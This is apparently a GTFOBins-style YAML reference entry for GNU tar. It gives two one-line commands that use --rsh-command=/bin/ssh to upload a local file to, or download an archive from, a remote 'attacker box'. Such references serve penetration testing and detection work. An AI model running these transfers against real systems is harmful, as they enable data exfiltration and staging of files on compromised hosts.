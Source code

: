 ```yaml
---
functions:
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        tar cvf $RUSER@$RHOST:$NFILE $LFILE --rsh-command=/bin/ssh
  file-download:
    - description: This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
---
```

